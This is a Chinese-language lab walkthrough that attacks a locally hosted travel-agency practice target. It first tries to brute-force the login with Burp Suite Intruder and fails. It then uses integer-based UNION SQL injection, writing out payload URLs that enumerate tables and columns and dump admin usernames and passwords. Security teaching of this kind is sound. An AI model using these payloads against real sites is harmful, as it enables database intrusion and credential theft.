## 环境说明

- 靶场：本地搭建的 Seafaring 旅行社仿真靶机（靶场镜像下载连接：[点我下载](https://www.ilanzou.com/s/8zxM5jOC)）
- 目标：通过 SQL 注入获取数据库中 admin 表的账号密码，从而获取到Flag
- 工具：burp suite，浏览器地址栏

## 思路一：直接打开登录界面，使用burp suite自带字典爆破

### 步骤一：使用burp suite抓取网页请求包

（1）打开之前在安装burp suite的这一篇时候安装的这个浏览器插件，来接管浏览器的流量



（2）在burp suite中依次选择框选界面（并且将Intercept设置为on）



（3）返回浏览器，输入一些信息，使得burp suite能够拦截到包



上图即为抓到包的截图

### 步骤二：选择需要爆破的内容

（1）回到burp suite，并选择如下的操作



（2）打开后会看到这个界面（这就是burp suite所拦截的内容）



（3）选择需要爆破的内容（给需要爆破的地方加上`$`符号）



（4）选择攻击模式（为了演示的方便，所以我会手动配置用户名字典，并选择自带的密码来爆破）



考虑到我们目前不知道用户名也不知道密码，所以这里我们使用这个模式

不同的爆破模式解释，如下表

| 攻击类型 | 说明 | 适用场景 |
| --- | --- | --- |
| Sniper (狙击手) | 一个字典，逐个位置替换 | **探测漏洞**：测单个参数是否有注入或爆破单账号密码 |
| Battering ram (攻城槌) | 一个字典，同时替换所有位置 | **同步填充**：账号和密码必须**一模一样**时使用 |
| Pitchfork (草叉) | 多个字典，同步替换 | **定向爆破**：你有已知的“账号:密码”**成对名单** |
| Cluster bomb(集束炸弹) | 多个字典，全排列组合 | **全方位爆破**：完全不知道对应关系，尝试**所有组合** |

### **这里我们的判断是账号密码都不知道，先尝试死磕：** 用 **Cluster bomb模式**

### 步骤三：添加爆破参数

（1）Payload 1（用户名位置）自己添加用户名字典



`*注意：`组合数量会随字典增大呈爆炸式增长，所以这里我就仅仅添加几个常见的用户名作为演示

（2）Payload 2（密码位置）选择默认的Password字典



（3）点击 Start attack 开始爆破（下图为爆破成功的截图）



在 Web 安全测试中，绝大多数请求都会失败，所以**我们要找的是那个“与众不同”的请求**（通常主要看以下几个方面：Length，Status code，Response received / Error中）

含义解释：

| **指标名称** | **观察重点** | **核心目的 (看它代表什么)** |
| --- | --- | --- |
| Length (长度) | **找数值突变** | 判断**页面内容**是否变化：数值不同说明服务器返回了不同的信息（如成功 vs 失败） |
| Status Code (状态码) | **找 302 / 200** | 判断**请求状态**：出现 `302` 通常代表登录成功并跳转；出现 `403/429` 说明你被封 IP 了 |
| Response (响应耗时) | **找异常延迟** | 判断**服务器逻辑**：在盲注或特定防御下，正确的 Payload 可能会让服务器处理时间明显变长 |

接下来，这里我们选择的是 **Length** 选项，也就是不同的行（如下图所示，找最特殊的那一个）



可是我们这里并没有找到合适的选项（也就说明了这个password字典里并没有我们需要的正确的密码）所以需要尝试另一种思路

## 思路二：主动寻找注入漏洞，使用Union联合查询注入

## 注入原理简介

Union 注入是 SQL 注入中最经典的一种方式。当网站后端直接将用户输入拼接进 SQL 语句时，攻击者可以通过构造 `UNION SELECT` 语句，将额外的查询结果"拼接"到原有结果中一起返回，从而读取数据库中任意表的内容

## 整体思路

1. 寻找注入点
2. 判断注入类型（字符型 / 整数型）
3. 确认查询列数（`order by`）
4. 使用 Union 联合查询获取数据库信息
5. 查询目标表的列名
6. 读取目标数据

### 步骤一：发现注入点

靶机首页有一个搜索框，随意输入内容后观察 URL 栏，发现搜索内容通过 `id` 参数传递



在地址栏直接输入 `id=1`，页面正常返回了数据库中的一条记录，内容如下：

```javascript
array(6) { [0]=> string(1) "1" ["id"]=> string(1) "1" [1]=> string(23) "SQL injection can occur" ["news"]=> string(23) "SQL injection can occur" [2]=> string(10) "2019-05-30" ["pub_date"]=> string(10) "2019-05-30" }
```

从返回结果可以判断，查询共返回了 3 个字段：`id`、`news`、`pub_date`

`*注意：`注入测试必须直接在浏览器地址栏输入 URL，不要通过搜索框输入，否则内容会被 URL 编码处理，影响注入效果

### 步骤二：判断注入类型

在地址栏分别输入以下两条语句，测试是否存在整数型注入

```sql
192.168.153.139/search.php?id=1+and+1=1
```

```sql
192.168.153.139/search.php?id=1+and+1=2
```

`*核心思路`：用一个**永真条件**和一个**永假条件**做对比，根据结果不同间接证明我们写的代码被数据库执行了

| 输入 | 结果 |
| --- | --- |
| id=1+and+1=1 | 正常返回数据 ✅ |
| id=1+and+1=2 | 返回 NULL |

两次结果不同，确认为**整数型注入**，不需要单引号

### 步骤三：确认查询列数

使用 `order by` 逐步测试列数，直到返回 NULL：

```sql
192.168.153.139/search.php?id=1+order+by+1
192.168.153.139/search.php?id=1+order+by+2
192.168.153.139/search.php?id=1+order+by+3
192.168.153.139/search.php?id=1+order+by+4   ← 此处返回 NULL
```

结果是，order by 4 返回 NULL，说明查询共有 **3 列**



### 步骤四：查询当前数据库所有表名

列数确认后，使用 `UNION SELECT` 联合查询，从 MySQL 系统表 `information_schema.tables` 中读取当前数据库的所有表名：

```sql
192.168.153.139/search.php?id=-1+union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema=database()
```

| 步骤 | 目的 | 关键语句 |
| --- | --- | --- |
| 查所有表名 | 找目标表 | `union select ... from information_schema.tables` |

参数解释：

| 参数 | 作用 |
| --- | --- |
| id=-1 | 让原查询不返回结果，只显示 union 注入的内容 |
| group\_concat(table\_name) | 将所有表名合并为一行显示 |
| information\_schema.tables | MySQL 系统表，存储所有表的信息 |
| table\_schema=database() | 限定在当前数据库中查询 |

查询后如下显示：



返回结果：**admin, news**  
当前数据库共有两张表，其中`admin`表就存放了我们需要的账号和密码

### 步骤五：查询 admin 表的列名

从 `information_schema.columns` 中读取 admin 表的所有字段名：

```sql
192.168.153.139/search.php?id=-1+union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_name='admin'
```

| 步骤 | 目的 | 关键语句 |
| --- | --- | --- |
| 查列名 | 找目标字段 | `union select ... from information_schema.columns` |



返回结果：**user\_id, user\_name, user\_pass**（我们需要的数据也就在如此）

### 步骤六：读取 admin 表中的账号密码

已知列名为 `user_name` 和 `user_pass`，所以这里我们直接查询：

```sql
192.168.153.139/search.php?id=-1+union+select+1,group_concat(user_name,0x3a,user_pass),3+from+admin
```

| 步骤 | 目的 | 关键语句 |
| --- | --- | --- |
| 读取数据 | 获取账号密码 | `union select ... from admin` |

